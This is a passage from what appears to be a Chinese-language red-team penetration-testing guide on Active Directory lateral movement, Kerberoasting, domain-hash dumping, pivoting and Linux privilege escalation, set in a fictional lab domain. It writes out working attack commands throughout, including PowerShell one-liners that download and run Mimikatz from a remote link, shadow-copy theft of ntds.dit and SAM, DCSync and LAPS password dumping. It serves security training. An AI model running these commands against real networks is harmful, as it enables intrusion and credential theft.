保存之后，我们应该创建更多的查询。现在我们可以单击查找结果“查找从所属节点到域管理员的最短路径”。


如果你想更仔细地研究这个问题，请查看 @porterhau5的 fork 版 Bloodhound。它用标记使被攻陷机器更直观，并允许更多的自定义功能：https://github.com/porterhau5/bloodhound-owned 。

到目前为止，在没有扫描的情况下，我们已经能够获得关于该组织的大量信息。这都是作为本地 AD 用户（域用户）的权限能做到的的，而且在大多数情况下，没有任何网络流量看起来太可疑。正如你所看到的，我们能够做到这一切，而无需成为本地管理员或对本地系统拥有任何管理权限。

#### Advanced ACL/ACE Bloodhound

当使用 Bloodhound 的收集方法访问控制列表（ACL）类型时，我们的脚本将查询 AD 以收集用户和对象的所有访问控制权限。我们从访问控制项（ACEs)收集的信息描述了用户、组和计算机的允许和拒绝权限。寻找和利用 ACEs 本身就是一个能写成完整的书的内容，但这里有一些很好的启动资源：

- BloodHound  1.3–acl 攻击路径更新
  - https://wald0.com/?p=112
- 介绍对抗性恢复方法
  - http://bit.ly/2GYU7S7

在将 ACL 数据导入 Bloodhound 时，我们要寻找什么信息？Bloodhound 识别出 ACE 中可能存在弱点的地方。这将包括谁有能力更改或重置密码、向组中添加成员、为其他用户更新脚本路径等对象、更新对象或在对象上写入新的 ACE 等等。

怎么使用这个东西呢？当攻陷到某个用户和获得额外的凭证后，我们可以通过目标路径找到一个有能力重置密码或修改 ACE 权限的用户。这将导致会有新的方法来找到到域管理员或特权帐户的路径，甚至允许设置后门以供以后使用。了解这些类型的利用方法的一个很好的资源是：[Robbins-An-ACE-Up-The-Sleeve-DesigningActive-Directory-DACL-Backdoors 演讲](http://ubm.io/2GI5EAq) 。

### 横向漫游——移动

在一个拥有多个用户的机器上，通常的做法是创建一个新的用户凭证或者迁移不同用户的凭证。这种方法大量用于在环境中横向移动，这并不是什么新鲜问题。通常，从 Bloodhound 输出或共享工作站，作为攻击者，我们需要能够模仿被攻陷的受害者系统上的其他用户。

我们拥有的许多工具可以用不同的方法来实现这一点。比如 Metasploit，我们都应该非常熟悉使用 [Post Exploitation 隐蔽框架](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)来窃取 token。

在 Empire 中，我们可以使用窃取 token 来模拟该系统上的用户。我注意到，有时候窃取 token 会让我们的 shell 下线。为了避免这种情况，我们可以将一个新的 agent 注入到另一个用户拥有的正在运行的进程中。

在下面的图片中，我们使用钓鱼让一个员工运行了我们的恶意软件。。这使得我们可以在受害者用户的系统中运行我们自己的程序（neil.pawstrong）。在那个用户的系统上，我们可以转到 BuzzClawdrin 的系统，并用WMI（WindowsManagementInstrumentation）命令执行获得了一个新的 agent。这里的问题是，我们在最初攻击受害者 Neil.Pawstrong 的过程中，因为我们使用缓存的凭证在 Buzz 的主机上生成了一个 shell。因此，我们不应该窃取 token，而应该使用 Empire 的  psinject 功能。

psinject 描述“能够使用 ReflectivePick 将代理注入另一个进程，从而将通用.NET运行库时加载到进程中并执行特定的 PowerShell 命令，而无需启动新的 PowerShell.exe 进程！”[ http://bit.ly/2HDxj6x ]，我们使用它来生成一个全新的、以 buzz.clauldrin 的用户进程运行的 agent，这样我们现在就可以获得他的访问权限。



### 离开初始主机

现在你已经找到了将要移动到的潜在路径，那么获得这些系统的代码执行的选项是什么？最基本的方法是使用我们当前的有 Active Directory 权限的用户以获得对另一个系统的控制权，举个例子，一个经理可以完全访问其下属的计算机，一个拥有多个具有管理权限的会议/实验组计算机，他们的内部系统配置错误，或者发现有人手动将用户添加到该计算机上的本地管理组。这都是普通用户可以拥有远程访问到网络上的其他工作站的可能的一些方式。一旦攻陷了一台目标机器，我们既可以获取 Bloodhound 的结果，也可以重新扫描网络以查看我们在哪些机器上具有本地访问权限：

- Empire 模块:
  - situational_awareness/network/powerview/find_localadmin_access
- Metasploit 模块：http://bit.ly/2JJ7ILb

Empire 的 find_localadmin_access 将查询 Active Directory 中的所有主机名并尝试连接到它们。这绝对是一个会造成很大动静的工具，因为它需要连接到每个主机并且验证它是否是本地管理员。


我们可以看到，Empire 的 find_localadmin_access 模块标明了用户访问我们的陷阱的是一个 buzz.cyberspacekittens.local 机器。这应该和我们的 Bloodhound 回显的是一样的。为了再次检查我们是否有访问权限，我通常会执行一些非交互的远程命令，比如 dir \[remote system]\C$ 并查看我们是否有对 C 盘的读/写权限。



在域内横向移动方面，有好几种做法。让我们先来看看 Empire 中最常见的（直接从 Empire 中提取的）：

- inveigh_relay：Inveigh 的 SMB 中继功能。此模块可用于将传入的 HTTP/Proxy NTLMv1/NTLMv2身份验证请求中继到 SMB 目标。如果成功地中继了身份验证，并且帐户具有较高的权限，则将在目标机器上利用 PSExec 执行指定的命令或 Empire 启动程序。
- invoke_executemsbuild：此函数使用 msbuild 和 inline task（内联任务）在本地/远程主机上执行 PowerShell 命令。如果提供了凭据，则在本地装入默认管理共享。此命令将在启动 msbuild.exe 进程的前后执行，而不启动 powershell.exe。
- invoke_psremoting：使用 psremoting 在远程主机上执行 stager。只要受害者启用了 PSRemoting（这不总是启用的），我们就可以通过此服务执行 PowerShell。
- invoke_sqloscmd：在远程主机上执行命令或着使用 xp_cmdshell 程序。就会反弹回一个 xp_cmdshell！
- invoke_wmi：使用 WMI 在远程主机上执行 stager。发现目标几乎总是启用了 WMI，这是执行 PowerShell payload 的一个很好的方法。
- jenkins_script_console：将 Empire 代理部署到具有对脚本控制台未经身份验证访问权限的 Windows Jenkins 服务器。如我们所知，Jenkins 服务器是常见的，没有凭据通常意味着要使用 RCE 来通过 /script 端点。
- invoke_dcom：通过 [DCOM](http://bit.ly/2qxq49L) 上的 MMC20.Application COM 对象在远程主机上调用命令。允许我们在不使用 psexec，WMI 或 PSRemoting 的情况下渗透进去。
- invoke_psexec：使用 PsExec 类型在远程主机上执行 stager 功能。这是使用 PsExec 移动文件并执行的传统方法。这可能会触发警报，但如果没有其他可用的方法，这仍然是一个好方法。
- invoke_smbexec：使用 SMBExec.ps 在远程主机上执行 stager。我们可以使用 samba 工具进行类似的攻击，而不是使用 PsExec。
- invoke_sshcommand：通过 SSH 在远程主机上执行命令。
- invoke_wmi_debugger：使用 WMI 将远程计算机上的目标二进制文件的调试器设置为 cmd.exe 或 stager。使用类似 sethc（粘滞键）的调试器工具来执行我们的代理。
- new_gpo_immediate_task：生成“即时”的 schtask 以通过指定的 GPO 推出。如果你的用户帐户有权修改 GPO，此模块允许你将“即时”计划任务推送到可以编辑的 GPO，允许在应用 GPO 的系统上执行代码。

[http://www.harmj0y.net/blog/empire/empire-1-5/]

这些只是一些最简单和最常见的横向内网漫游技术。在本书的后面，我们将讨论一些不太常见的绕过网络的技术。在大多数内网中，通常启用 Windows Management Instrumentation（WMI），因为它是管理工作站所必需的服务。因此，我们可以使用 invoke-wmi 横向移动。由于我们使用的是本地缓存凭据，且我们的帐户可以访问远程主机，因此我们不需要知道用户的凭据。

在远程系统上执行

- usemodule lateral_movement/invoke_wmi
- 设置你即将入侵的主机的相关信息：
  - set ComputerName buzz.cyberspacekittens.local
- 配置你将使用的监听器:
  - set Listener http
- 连接到远程主机并执行恶意程序:
  - execute
- 和新的 agent 交互：
  - agents
  - interact <Agent Name>
- sysinfo
  



### 利用 DCOM 的横向移动

有许多方法可以在主机上进行单次横向移动。如果泄露的帐户具有访问权限，或者你能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程命令执行或 PSExec 生成不同的 shell。如果这些执行命令的方法受到监控怎么办？我们通过使用分布式组件对象模型（DCOM）实现一些很酷的 Windows 功能。DCOM 是用于在不同远程计算机上的软件组件之间通信的 Windows 功能。

你可以使用 Powershell 命令列出计算机的所有 DCOM 应用程序：GetCimInstance Win32_DCOMApplication



安全研究员 @enigam0x3 的研究发现（ https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/ ），有多个对象（例如 ShellBrowserWindow 和 ShellWindows ）允许在受害者主机上远程执行代码。当列出所有 DCOM 应用程序（如上图所示）时，你将看到一个 CLSI 为 C08AFD90-F2A1-11D1-845500A0C91F3880 的 ShellBrowserWindow 对象。识别出该对象后，只要我们的帐户有权访问，我们就可以利用此功能在远程工作站上执行二进制文件。

- powershell
- $([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“c:\windows\system32\calc.exe”)

这将只在系统本地执行文件，并且我们不能将任何命令行参数包含到可执行文件中（因此不能使用 cmd /k 类型的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意，用户将收到警告的弹窗。在本例中，我目前在一个受害者的主机 neil.cyberspacekittens.local 上，该主机可以管理访问一个名为 buzz 的远程工作站。我们将在 Neil 的工作站上共享一个文件夹，并托管我们的 payload。接下来，我们可以调用 DCOM 对象在远程受害者（buzz）计算机上执行托管的 payload。

$([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-
00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“\neil.cyberspacekittens.local\Public\adobeupdate.exe”)



正如你在下一张图片中看到的，Buzz 的计算机上出现了一个关于运行 adobeupdate.exe 文件的弹出窗口。虽然大多数用户都会点击并运行这个，但它可能会让我们被目标察觉。



因此，避免这个问题的更好方法是在使用 DCOM 执行该文件之前将该文件移到上面（类似于装载受害者的驱动器）。@Enigam0x3对此做得更进一步，并利用 Excel 宏来使用 DCOM。首先，我们需要在自己的系统上创建恶意 Excel 文档，然后使用 [PowerShell 脚本](https://bit.ly/2pzJ9GX)在受害者主机上执行此.xls 文件。

需要注意的一点是，有许多其他的 DCOM 对象可以从系统中获取信息，可能会启动或停止服务等等。这无疑为进一步研究 DCOM 功能提供了很好的起点。

参考文献：

- https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/
- https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/
- https://www.cybereason.com/blog/dcom-lateral-movement-techniques

### Pass-the-Hash

过去传递本地管理帐户 Pass-The-Hash（PTH）的方法在很大程度上已经开始消失。虽然还没有完全消失，但让我们快速回顾一下。PTH 攻击利用 Windows NTLM 哈希对系统进行身份验证，而不是使用用户的凭据。这是很重要的一点，首先，使用 Mimikatz 这样的工具可以很容易地恢复哈希，可以为本地帐户提取哈希（但需要本地管理员权限），可以从转储域控制器（不是明文密码）中恢复哈希（DCsync）等等。


PTH 最基本的用途是攻击本地管理员。由于默认情况下本地管理员帐户已被禁用，并且出现了更新的安全功能，例如本地管理员密码解决方案（LAPS），为每个工作站创建随机密码，因此通常很少使用上述这种方法。过去，在一个工作站上获取本地管理帐户的哈希值在整个组织中是可以用相同的方法实现的，这意味着一个易受攻击的方案会使整个公司破产。

当然，这要求你必须是系统上的本地管理员，启用本地管理员帐户“administrator”，并且它是 RID 500帐户（意味着它必须是原始管理员帐户，不能是新创建的本地管理员帐户）。

- 执行命令： shell net user administrator
- User name    Administrator
- Full Name
- Comment Built-in account for administering the computer/domain
- User’s comment
- Country/region code 000 (System Default)
- **Account active Yes**
- Account expires Never

如果我们看到帐户处于活动状态，我们可以尝试从本地计算机中提取所有哈希值。请记住，这不会包括任何域账户哈希：
- Empire Module: powershell/credentials/powerdump
- Metasploit Module: http://bit.ly/2qzsyDI

例如：
- (Empire: powershell/credentials/powerdump) > execute
- Job started: 93Z8PE

输出：
- Administrator:500:
- aad3b435b51404eeaad3b435b51404ee:3710b46790763e07ab0d2b6cfc4470c1:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

我们可以使用 Empire（credentials/mimikatz/pth）或者启动可信任的 psexec，提交我们的哈希，并执行我们的自定义 payload，如下图所示：



如前所述，这是一种现在少见的古老的横向移动方式。如果你仍在考虑利用本地管理员帐户，但所处的环境有 LAPS（本地管理员密码解决方案），你可以使用几个不同的将它们从 Active Directory 中转储出的工具。这假设你已经拥有一个域管理员或 Helpdesk 类型帐户的权限：

- https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/gather/credentials/enum_laps.rb
- ldapsearch -x -h 10.100.100.200 -D “elon.muskkat” -w password -b “dc=cyberspacekittens，dc=local” “(ms-MCS-AdmPwd=*)” ms-MCSAdmPwd [https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/]

这是保持横向移动而不注销 Helpdesk 用户帐户的好方法。

### 从服务帐户获取凭据

如果你发现自己处于一个用户权限受限、无法从内存中提取密码、主机系统上没有密码的情况下，该怎么办...接下来该怎么办？好吧，我最喜欢的攻击之一是 Kerberoasting。

我们都知道 NTLM 存在缺陷，这是由于单向哈希（不含盐）、重放攻击和其他传统问题造成的，这也是许多公司转向采用 Kerberos 的原因。如我们所知，Kerberos 是一种安全的方法，用于对计算机网络中的服务请求进行身份验证。我们不会深入研究 Windows 中的 Kerberos 实现。但是，你应该知道域控制器通常充当票据授予的服务器；网络上的用户可以请求票据授予服务器以获取资源访问权的凭证。

什么是最严重的攻击？作为攻击者，我们可以掌握我们之前提取的目标服务帐户的任何 SPN 请求 Kerberos 服务票证。漏洞在于，当从域控制器请求服务票据时，该票证使用关联的服务用户的 NTLM 哈希加密。由于任何用户都可以请求任何票据，这意味着，如果我们可以猜测关联服务用户的 NTLM 哈希（加密票据的）的密码，那么我们现在就知道实际服务帐户的密码。这听起来可能有点令人困惑，所以让我们来看一个例子。

与以前类似，我们可以列出所有的SPN服务。这些是我们将为其提取所有 Kerberos 票据的服务帐户：
- setspn -T cyberspacekittens.local -F -Q */*

我们可以将单个用户的 SPN 作为目标，也可以将所有用户的 Kerberos 票据拉入用户的内存中：
- 针对单个用户：
  - powershell Add-Type -AssemblyName System.IdentityModel;New-Object
    System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList “HTTP/CSK-GITHUB.cyberspacekittens.local”
- 将所有用户票据拖到内存中
  - powershell Add-Type -AssemblyName System.IdentityModel;IEX (New-Object
    Net.WebClient).DownloadString(“ https://raw.githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1 ”)
    | ForEach-Object {try{New-ObjectSystem.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.ServicePrincipalName}catch{}}
- 当然，你也可以使用 powersploit 执行此操作：
  - https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/



如果成功的话，我们已经将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。我们现在需要一种方法来提取票据。我们可以使用好工具 Mimikatz Kerberos 导出：
- powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2qx4kuH’); Invoke-Mimikatz -Command ’”““kerberos::list /export”””’



一旦我们导出这些票证，它们将仍会驻留在受害者的机器上。在我们开始破解它们之前，我们必须从它们的系统中下载它们。请记住，票据是用服务帐户的 NTLM 哈希加密的。所以，如果我们能猜到 NTLM 哈希，我们就可以读取票据，现在也知道服务帐户的密码。破解账户最简单的方法是使用一个名为 tgsrepcrack 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，稍后我们将讨论）。使用 Kerberoast 破解票证：

- 使用 Kerberoast 来破解票据：
  - cd /opt/kerberoast
  - python tgsrepcrack.py [password wordlist ][kirbi ticketss - *.kirbi]



在这个例子中，服务帐户 csk-github 的密码是“p@ssw0rd!”

当然，Empire 有一个 PowerShell 模块为我们做所有需要做的事情。它位于 powershell/credentials/invoke_kerberoast 目录下（ https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ）。

你可以用 John the Ripper 甚至 Hashcat 来破解密码并输出结果。我以前在非常大的网络环境中运行 PowerShell 脚本时遇到过一些问题，因此，退一步的方法是使用 PowerShell 和 Mimikatz 将所有的票据都获取下来。



## 转储域控制器哈希

一旦我们获得了域管理访问权，从 DC 中提取所有哈希的老方法就是在域控制器上运行命令，并使用 Shadow Volume 或原始拷贝技术提取 ntds.dit 文件。

回顾磁盘卷影复制技术<br>
由于我们确实可以访问文件系统，并且可以作为攻击者在域控制器上运行命令，因此我们希望获取存储在 ntds.dit 文件中的所有域内哈希。不幸的是，该文件不断地被读和写，即使作为系统，我们也无法读取或复制该文件。幸运的是，我们可以利用名为 Volume Shadow Copy Service 磁盘复制服务（VSS）的 Windows 功能，该功能将创建磁盘的快照副本。然后我们可以从该副本中读取 Ntds.dit 文件将其获取出来。并将其从计算机上取消，这包括窃取 Ntds.dit、System、SAM 和 Boot Key  文件。最后，我们需要清理我们的行踪并删除磁盘拷贝：

- C:\vssadmin create shadow /for=C:
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM.
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SAM.
- reg SAVE HKLM\SYSTEM c:\SYS
- vssadmin delete shadows /for= [/oldest | /all | /shadow=]

NinjaCopy

[Ninjacopy](http://bit.ly/2HpvKwj) 是另一个工具，一旦我们在域控制器上，就可以用来获取 Ntds.dit 文件。Ninjacopy “通过读取原始磁盘卷并分析 NTFS 结构，从 NTFS 分区磁盘复制文件。这将绕过文件 DACL（任意访问控制列表）、读取句柄锁和 SACL（系统访问控制列表）。但你必须是管理员才能运行这个脚本。这可用于读取通常锁定的系统文件，如 NTDS.dit 文件或注册表配置单元。”[http://bit.ly/2HpvKwj]

- Invoke-NinjaCopy -Path “c:\windows\ntds\ntds.dit” -LocalDestination “c:\windows\temp\ntds.dit

DCSync

现在，我们已经回顾了从 DC 提取哈希的老方法，这些方法要求你在 DC 上运行系统命令，并且通常需要在该计算机上删除一些文件，让我们继续讨论新方法。最近，由 Benjamindelpy 和 Vincent Le Toux 编写的 DCSync 引入并改变了从域控制器转储哈希的玩法。DCSync 的概念是它模拟域控制器来请求该域中用户的所有哈希。这意味着，只要你有权限，就不需要运行任何域控制器上的命令，也不必删除 DC 上的任何文件。

但是要使 DCSync 工作，必须具有从域控制器中提取哈希的适当权限。通常是限于域管理员、企业管理员、域控制器用户组以及将复制更改权限设置为允许（即复制所有更改和复制目录更改）的任何人，DCSync 将允许你的用户执行此攻击。这种攻击最初是在 Mimikatz 开发的，可以使用以下命令运行：

- Lsadump::dcsync /domain:[YOUR DOMAIN] /user:[Account_to_Pull_Hashes]

更好的是，DCSync 被引入了 PowerShell Empire 这样的工具，以使其更容易实现。

Empire 模块：powershell/credentials/mimikatz/dcsync_hashdump



查看 DCSync hashdump，我们可以看到 Active Directory 中用户的所有 NTLM 哈希。此外，我们还有 krbtgt NTLM 哈希，这意味着我们现在（或在未来的活动中）可以执行 Golden Ticket attacks（黄金票据攻击）。

## 利用 VPS 在内网进行 RDP 横向移动

在当今世界，有了大量的新一代杀毒软件，在计算机之间横向运行 WMI/PowerShell Remoting/PSExec 并不总是最好的选择。我们还看到一些组织系统正在记录所有发生的 Windows 命令提示。为了解决这一切，我们有时需要回到基本的横向运动。使用 VPS 服务器的问题是，它只是一个没有 GUI 接口的 shell。因此，我们将配置路由和代理转发来自攻击者主机的流量，通过 VPS，然后再到被攻陷的主机，最后横向移动到下一个受害者。幸运的是，我们可以使用大部分本地工具完成任务。



首先，我们需要设置一个 VPS 服务器，启用开放到公网的多个端口，用 PTH 配置 Metasploit，并用 Meterpreter 攻陷最初的受害者。我们也可以用 Cobalt Strike 或其他框架来实现这一点，但在本例中我们将使用 Meterpreter。

我们可以利用默认的 SSH 客户机，使用本地端口转发（-L）。在这个场景中，我使用的是 Mac，但这也可以在 Windows 或 Linux 系统上完成。我们将使用 SSH 密钥通过 SSH 连接到我们的 VPS。我们还将在攻击者机器上配置本地端口，在本例中是3389（RDP），以将任何发送到该端口的流量转发到我们的 VPS。当该端口上的流量转发到我们的 VPS 时，它会将该流量发送到 VPS 上 3389 端口上的本地主机。最后，我们需要在 3389 端口上设置一个监听我们的 VPS 的端口，并使用 Meterpreter 的端口转发功能通过被攻陷的受害机器设置一个端口转发，以能连接到受害者的系统。

1. 用 Meterpreter payload 攻击受害者
2. 在我们的机器上开启 SSH，并在我们的攻击者系统上设置本地端口转发（本地监听端口3389），以将针对该端口的所有流量发送到 3389 上的 VPS 本地主机端口。
    - ssh -i key.pem ubuntu@[VPS IP] -L 127.0.0.1:3389:127.0.0.1:3389
3. 在 Meterpreter 会话上设置一个前置端口以监听端口3389上的 VPS，并通过被攻陷的机器将该流量发送到下一个要横向移动到的服务器。
    - portfwd add -l 3389 -p 3389 -r [Victim via RDP IP Address]
4. 在我们的攻击者机器上，打开我们的 Microsoft 远程桌面客户端，将你的连接设置为你自己的本地主机 -127.0.0.1，然后输入受害者的凭据以通过 RDP 进行连接。



## 在 Linux 中横向移动
在 Linux 中的操作多年来变化不大。通常，如果你使用的是 dnscat2 或 Meterpreter，它们都支持自己的转发。
- dnscat2:
  - listen 127.0.0.1:9999 <target_IP>:22
- Metasploit
  - post/windows/manage/autoroute
- Metasploit Socks Proxy + Proxychains
  - use auxiliary/server/socks4a
- Meterpreter:
  - portfwd add –l 3389 –p 3389 –r <target_IP>

如果你幸运地获得了一个 SSH shell，那么我们可以通过该系统进行渗透。我们如何获得 SSH shell 呢？在许多情况下，一旦我们可以实现本地文件包含（LFI）或远程代码执行（RCE），我们可以尝试权限升级以读取 /etc/shadow 文件（和密码破解），或者我们可以利用一些 Mimikatz 风格的方法。

与 Windows 和 Mimikatz 一样，Linux 系统也有同样的问题，密码以明文形式存储。@huntergregal 编写的工具可以转储特定进程，这些进程很可能以明文形式包含用户的密码。尽管迄今为止，这只适用于有限版本的 Linux 系统，但这个相同的概念可以在整个系统中使用。你可以在这里准确地看到哪些系统以及从何处获取密码：

- https://github.com/huntergregal/mimipenguin



一旦我们在被入侵的主机上获得了凭证，并且可以通过 SSH 反弹 shell，我们就可以通过这个隧道传输流量，并在机器之间进行数据隐藏。在 SSH 中，有一些很好的特性可以让我们执行这个操作过程：
- 设置动态 Sock Proxy 以使用 proxychains 通过主机隐藏我们的所有流量：
    - ssh -D 127.0.0.1:8888 -p 22 <user>@ <Target_IP>
- 单个端口的基本端口转发：
    - ssh <user>@<Target_IP> -L 127.0.0.1:55555:<Target_to_Pivot_to>:80
- 通过 SSH 的 VPN。这是一个非常棒的特性，使得可以通过 SSH 隧道隐蔽传输第3层网络流量。
    - https://artkond.com/2017/03/23/pivoting-guide/#vpn-over-ssh

## Linux 提权

Linux 权限提升在很大程度上与 Windows 类似。我们寻找可以写入的易受攻击的服务、那些棘手的错误配置、平面文件中的密码、所有的可写文件、计划任务，当然还有修补问题。

在有效和高效地分析 Linux 系统中的权限提升问题方面，我们可以使用一些工具来为我们完成所有的工作。

在我们进行任何类型的权限提升攻击之前，我首先要在 Linux 主机上进行一个良好的信息收集工作，并识别所有关于系统的信息。这包括用户、服务、定时任务、软件版本、弱信任对象、错误配置的文件权限，甚至是 Docker 信息。我们可以使用一个名为 LinEnum 的工具来为我们完成所有的累活（ https://github.com/rebootuser/linenum ）。



这是一个非常长的报告，内容是你可能想要了解的关于底层系统的所有信息，这对于未来的活动来说是非常好的。

一旦我们获得了关于系统的信息，我们就会试图看看我们是否能够利用这些漏洞中的任何一个。如果我们找不到任何可用的漏洞或服务、计划任务中的错误配置，我们将直接在系统或应用程序上进行攻击。我试着最后做这些，因为总是有一个潜在的可能性可以直接使系统挂掉。

我们可以运行一个名为 [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester) 的工具来分析主机系统并识别缺失的补丁和漏洞。一旦识别出漏洞，该工具还将向你提供可用 PoC 漏洞的链接。

